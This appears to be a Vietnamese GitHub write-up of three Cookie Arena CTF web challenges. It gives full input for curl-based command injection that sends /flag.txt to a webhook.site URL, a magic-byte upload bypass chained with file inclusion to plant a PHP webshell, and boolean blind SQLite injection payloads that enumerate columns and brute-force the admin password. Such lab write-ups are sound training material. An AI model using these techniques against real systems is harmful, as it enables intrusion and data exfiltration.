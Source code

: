 # CTF_cookie-Arena
## Challenges CTF cookie arena with me

## Mục lục
- [Baby Crawler](#1-Baby-Crawler)
- [Baby File Inclusion](#baby-file-inclusion)

## 1 Baby Crawler

Writeup đầu tiên trong CTF_cookie-Arena này là challenge Baby Crawler với mình thì bài này không quá khó nhưng cũng làm tốn kha khá thời gian của mình và bắt đầu nào :>>
truy cập vào đường dẫn thử thách ta có giao diện chính của web với nút CRAWL và 1 đường link đến https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html khi bấm nút CRAWL web sẽ hiển thị 1 đường dẫn Cached File: như hình sau:
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/30ae0633-365c-4d7a-84cf-a44bf2f39971)
truy cập vào thì nó sẽ dẫn ta đến trang chưa nội dung của bài báo. Sau khi tìm hiểu chức năng cũng như cách hoạt động của web mình thử view-source xem có kiếm được source code hoặc đường dẫn ẩn nào không thì đập vào mắt mình là /?debug
![Screenshot 2024-06-12 000915](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2764819a-475b-4c8e-9deb-520bf6969fcb) 
sau khi truy cập ?debug thì mình đã có được source của bài này (phần source mình có để ở Baby Crawler các bạn có thể xem)

Sau khi đọc source code thì mình đã chú ý đến đoạn sau

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/13979d67-2497-46a2-b74e-03602dd6c598)

Có thê thấy trong code biến $url là untrusted data được đưa vào 1 hàm nguy hiểm như shell_exec xử lý. Đến đây việc còn lại là khai thác lỗi  Command Injection và làm sao để khai thác nó. Để thao túng được biến url ta phải dảm bảo 2 điều kiện 
1 là bắt đầu là http do strpos sẽ kiễm tra chuỗi nhập có bắt đầu là http không 
2 là được filter bởi hàm **escapeshellcmd** thì trong PHP escapeshellcmd sẽ thoát khỏi các kí tự (& # ; `| * ? ~ < > ^ ( ) [ ] { } $ \ , \ x0A and \xFF . ' và ")

Nhận thấy curl được nối chuỗi với phần escapeshellcmd($url) mình đã thử nhiều cách nhưng vẫn không thu được kêt quả gì do vướng escapeshellcmd . Bỏ qua hướng tiếp cận bằng && ; thì mình thử tìm hiểu coi curl có thể làm được gì thì mình đã tìm ra được curl có cho phép mình gửi nội dung của file tới một server ngoài bằng -F (ex: curl -F "file=@/path/to/example.txt" https://api.example.com/upload). Tìm ra hướng đi mình bắt đầu thử nghiệm nó và server ngoài mình chọn để dùng là webhook.site và thực hiện input sau: https://webhook.site/1560d9e5-0482-4a96-b3d0-d1583a783b90 -F "file=@/flag.txt"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f7f80235-6165-4d2b-911d-8740724ab665) và ngay lập tức webhook mình nhận được gói tin
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/5c815677-e450-42f5-89b2-a6818746e1e0) lúc này mình chỉ cần download file chứa flag là xong

* ### 2 Baby File Inclusion

bài thứ 2 trong CTF_cookie-Arena này là challenge Baby File Inclusion
Yêu cầu của thử thách này là làm sao tạo ra được webshell để đọc được file flagxxx.txt trong hệ thống và đây là giao diện của lab gồm button cho mình tìm và tải file từ máy lên và 1 button để upload nó lên 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/1960da91-d9cf-4b65-8f9a-2ba2b014c243)
mình thử uploads 1 file hình ảnh lên thì mình có được 1 đường dẫn là uploads/download.jpg để xem hình ảnh
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/c3e1bdc5-16f0-4031-8dc8-ef18497cff15)

Tiếp theo mình thử upload 1 file có tên test.txt thì nhận lại thông báo "Sorry, the file extension 'txt' is not allowed"

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/22bfad3e-6ddd-45ca-a5ed-c19aa8e38266)

từ đó mình có thể đoán ra nó chỉ cho phép gửi file có đuôi là jpg hoặc png . Mình liền thử gửi lại nó qua burp-suite giữ lại đuôi file là .jpg thay đổi Content-Type sang image/jpeg nhưng sửa lại nội dung là phpinfo(); để xem có được không thì ăn ngay cái thông báo "Sorry, this content type is not allowed"
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/2b017c26-f459-46b3-a112-fd16ad26e276)

hum.... cho các bạn chưa biết thì trong PHP Các loại file khác nhau sẽ được xác định bằng một vài byte đầu tiên của file, gọi là file signature. Nó sẽ đọc các byte đầu tiên của tệp và so sánh chúng với cơ sở dữ liệu chữ ký để xác định loại MIME của tệp nếu khớp thì nó sẽ coi như file đó hợp lệ !!!!!
Có được kiến thức này thì bài lab này sẽ chỉ là 1 cái bánh chờ ta ăn thôi hahaha 
Việc cần làm lúc này là mình chỉ cần google tìm file signature của jpg copy nó vào trước webshell và uploads nó lên thôi (^.^)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f40b2ce1-f6a9-4829-a7e1-0eefad759e5b)
Ở đây mình tận dụng lại request lúc đầu xóa phần nội dung chỉ giữ lại cái file signature và chèn webshell "phpinfo()" để test thì đã thấy file haha.jpg được tải lên thành công giờ vào thử uploads/haha.jpg để xem web có chạy shell mà mình up lên không nhé
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ac339ebc-5658-4b49-936c-7704cb439e31)
kết quả không như mình tính toán nhỉ sau 1 lúc thì mình có để ý đuôi của URL của web có đoạn index.php?page=upload.php vậy nếu mình đổi upload.php sang uploads/haha.jpg thì sao ???
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16081811-b5be-4fae-9a74-0c419c48e34b)
Vậy là thành công rồi việc bây giờ là đổi shell để đọc được file flagxxx.txt (à mỗi lần up shell nhớ đổi tên file nha tại web sẽ không nhận file nhận lại file đã có ) và đây là cách mình làm
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/16bf265b-b4b7-4dd5-a1ec-703b8e5ec217)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/ad0d9eff-3445-472a-9b92-b14994e3d9c1)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/682f5f4e-f597-4f2e-97de-866d89d9670c)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/dc223cf1-c094-41d3-84ab-222f55609eec)


* ### 3 Simple Blind SQL Injection

Đến với bài 3 với yêu cầu là login account: admin ở /login để lấy flag và được biết password chỉ chứa các kí tự [a-z0-9_] truy cập vào lab tao có 1 trang sau 
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/eca518e5-11a8-47bb-82b4-1d545455c2e9)

như hình thì ta có 1 vị trí để nhập và kiễm tra UID có tồn tại hay không nếu có thì sẽ thông báo "User uid exixsts" nếu không "User uid not Found!" mình thử nhập UID với admin và adminn
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/12f12632-e06a-4bd0-9f63-86a8d82fda37)
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/86274607-dba5-4feb-8205-c0b462ffa58b)


sau khi hiểu chức năng của uid mình thử " và ' xem có error xảy ra không thì với dấu nháy kép (") không xảy ra gì nhưng nháy đơn (') web hiện lên error. Trong error ta biết web sử đụng sqlite3 và chú ý đến dòng nrows = 1 if query_db("SELECT * FROM users WHERE uid ='%s'" % uid, one=True) else 0 ở đây t biết query lấy trực tiếp biện uid để chèn trực tiếp vào query sql và chắc chắn nó bị sql injection kết hợp với dữ kiện web chỉ trả về "User uid exixsts" nếu không "User uid not Found!" nên mình biết đây là boolean SQL Injection

![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/6a991447-a3fc-4703-9031-63533e0bb238)

Sau khi xác định là boolean SQL Injection bây giờ mình sẽ tiến hành thực hiện khai thác nó với các bước sau:
  - Đầu tiên mình cần xác định table nơi chứa account và password của admin nhưng từ truy vấn "SELECT * FROM users WHERE uid ='%s'" mình có thể xác định luôn table tên users và 1 column tên uid
  - bước hai minh cần xác định số column trong table users ở đây mình viết ra 1 query hoàn chỉnh sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- rồi lấy admin' AND ((SELECT COUNT(*) FROM pragma_table_info('users')) > 1) -- để chèn vào phần uid ở đây mình bắt đầu thử từ 1 và tăng lên từ từ vì biết chắc nó có ít nhất 2 column 1 cái là uid chứa account sau khi thử với 3 thì kết quả trả not found => table 'users' này có 3 column
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/98e725d3-ddd0-4dc1-ba20-0db0ebb60f1f)
  - bước ba xác định số kí tự trong tên column với query sau: SELECT * FROM users WHERE uid = 'admin' AND ((SELECT LENGTH(name) FROM pragma_table_info('users') LIMIT 1 OFFSET 0) > 1) -- tương tự như bước 2 và lặp lại nhưng thay OFFSET bằng 1 để bỏ qua column đầu tiên mới check => tìm ra số kí tự của cả 3 column là 3 kí tự (trong đó 1 column là uid )
  - bước bốn tìm tên column chứa password với query sau : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT name FROM pragma_table_info('users') LIMIT 1 OFFSET 1), 1, 1) = 'a') = 1 )-- vì số kí trong tên column là 3 nên mình chỉ cần brute force kí tự thôi có thể dùng intruder trong burp-suite nhưng mình sẽ viết script python để thực hiện nhanh hơn (nghèo không có tìn mua bản pro T_T) script brute-foce_column.py mình có để file các bạn có thể tham khảo chạy xong thì mình được có được tên của 3 colun là idx,uid,upw như hình
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/f2f2bb6a-1e80-480a-ae6b-9b6badb50842)
  - bước năm thực hiện brute-force truy vấn mật khẩu của admin thôi nhưng trước hết thì cứ viết query trước đã : SELECT * FROM users WHERE uid = 'admin' AND (SELECT (SUBSTR((SELECT upw FROM users WHERE uid = 'admin'),1,1) = 'a') = 1 ) -- bây giờ giống như bước bốn mình sẽ sửa lại script đã viết trước đó (phần script sửa tên brute-foce_password.py) chạy script thì ra liền password nha login là có flag
![image](https://github.com/tthanhnguyen/CTF_cookie-Arena/assets/96458810/7418e55e-e36c-450b-ad22-6204e06085db)





